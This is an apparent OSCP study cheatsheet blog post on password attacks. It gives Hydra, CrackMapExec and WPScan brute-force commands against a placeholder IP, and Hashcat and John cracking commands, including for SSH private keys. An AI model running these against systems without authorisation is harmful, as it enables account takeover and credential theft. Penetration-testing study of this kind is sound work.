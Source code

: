 ```yaml
---
title: Password Attacks
author: linatl
category: "OSCP"
date: "2021-03-05 00:01"
tags: [OSCP, Cheatsheet]
layout: post
---
```


###### Figuring out the kind of hash
```
> hashid -e hash.txt
> hash-identifier
```

###### Bruteforcing with Hydra
```
> hydra -e nsr -l username -P /usr/share/wordlists/rockyou.txt 10.10.10.10 ssh
"-e nsr" = try "n" null password, "s" login as pass and/or "r" reversed login
```

###### Bruteforcing with Crackmapexec
```
> crackmapexec ssh 10.10.10.10 -u users.txt -p passwords.txt
Other protocols with crackmapexec: ldap,mssql,winrm,smb
```

###### Get Windows password Policy
```

```

###### Password spraying
```

```

###### Hashcat
```
> echo "$1$hash" > hash.txt
> hashcat -a 0 -m 500 hash.txt /usr/share/wordlists/rockyou.txt
```

###### John
```
> echo "$1$hash" > hash.txt
> john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
> john hash.txt --show

cracking id_rsa key
python2.7 /usr/share/john/ssh2john.py ./id_rsa > hash.txt
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

###### WPScan
```
wpscan --url http://10.10.10.10/wp/wp-login.php --passwords /usr/share/wordlists/rockyou.txt --usernames username
```

###### Other online tools
```
CyberChef (GHCQ)
https://github.com/gchq/CyberChef
```
